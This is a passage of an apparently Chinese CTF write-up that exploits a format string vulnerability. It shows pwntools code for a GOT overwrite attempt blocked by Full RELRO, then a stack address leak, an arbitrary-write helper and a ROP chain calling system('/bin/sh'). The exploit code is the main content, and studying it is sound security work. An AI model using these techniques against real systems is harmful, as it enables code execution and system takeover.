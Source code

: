 ```python
payload = fmtstr_payload(offset, {printf_got: system_addr}, numbwritten=8, write_size="short")
payload = b"AAA" + payload
info(f"payload: {payload}, len = {len(payload)}")
p.sendline(payload)
```

执行后会发现段错误，因为开启了 Full RELRO，不能修改 GOT 表。

### ROP
因为可以任意地址写，可以操控 func 函数退出，所以直接任意写覆盖返回地址进行 ROP 即可。

首先需要泄漏栈地址，同样任意读栈上的 rbp 即可：

```python
payload = b"%24$p"
p.sendline(payload)
p.recvuntil(b"[+]: ")
stack = int(p.recvline().strip(), 16)
ret_addr = stack - 0x200 + 0x1e8
fmtstr_addr = stack - 0xb0
success(f"ret_addr: {hex(ret_addr)}")
success(f"fmtstr_addr: {hex(fmtstr_addr)}")
```

#### ROP call system
最后一次 fsb 时在栈上布局一个 /bin/sh，这个地址也是可以知道的，然后利用一个 pop rdi ; ret 的 gadget 将其地址写入 rdi，接下来调用 system 即可，但也要注意栈对其需要加一个 ret。

这里写一个工具函数来实现任意地址八字节的写，其中 payload 一定 64 字节，加上 "[+]: AAA" 是对齐的，后面可以直接加 addition 内容比如 /bin/sh，这时内容相对于字符串开头的偏移就是 72，后续 fmtstr_addr 就可以获得 addition 地址：

```python
def fsb_write(addr, value, addition = b""):
    payload = fmtstr_payload(offset, {addr: value}, numbwritten=8, write_size="short")
    payload = b"AAA" + payload + addition
    p.sendline(payload)
    p.recvuntil(b"input: \n")
```

然后 ROPgadget 寻找 gadget 并构造 payload，这里我找的是 pwn 内部的 gadget，同样需要加上 main+35 - 0x94b 的代码段基地址偏移：

```python
"""
pwn:
0x00000000000009c3 : pop rdi ; ret
0x00000000000006b6 : ret
"""
pop_rdi_ret = main_35 - 0x94b + 0x9c3
ret = main_35 - 0x94b + 0x6b6
binsh_addr = fmtstr_addr + 72
fsb_write(ret_addr, p64(pop_rdi_ret))
fsb_write(ret_addr + 8, p64(binsh_addr))
fsb_write(ret_addr + 16, p64(ret))
fsb_write(ret_addr + 24, p64(system_addr), b"/bin/sh\x00")
```
